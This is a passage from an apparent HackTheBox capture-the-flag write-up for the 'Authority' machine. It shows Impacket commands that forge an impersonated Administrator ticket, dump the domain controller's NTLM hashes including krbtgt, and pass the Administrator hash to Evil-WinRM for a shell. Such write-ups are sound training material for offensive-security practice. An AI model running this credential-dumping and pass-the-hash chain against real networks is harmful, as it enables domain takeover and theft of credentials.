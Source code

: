 And get a Silver Ticket:

```
oxdf@hacky$ getST.py -spn 'cifs/AUTHORITY.AUTHORITY.HTB' -impersonate Administrator 'authority.htb/0xdf$:0xdf0xdf0xdf'
Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache

```

With this, I can dump the NTLM hashes from the DC:

```
oxdf@hacky$ KRB5CCNAME=Administrator.ccache secretsdump.py -k -no-pass authority.htb/administrator@authority.authority.htb -just-dc-ntlm
Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6961f422924da90a6928197429eea4ed:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:bd6bd7fcab60ba569e3ed57c7c322908:::
svc_ldap:1601:aad3b435b51404eeaad3b435b51404ee:6839f4ed6c7e142fed7988a6c5d0c5f1:::
AUTHORITY$:1000:aad3b435b51404eeaad3b435b51404ee:40411717d1f7710c4ba1e3f5e1906d90:::
0xdf$:11602:aad3b435b51404eeaad3b435b51404ee:81cebe41108f5b1c36f3dd3c01dccfc3:::
[*] Cleaning up...

```

That hash works over Evil-WinRM:

```
oxdf@hacky$ evil-winrm -i authority.htb -u administrator -H 6961f422924da90a6928197429eea4ed

Evil-WinRM shell v3.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents>

```





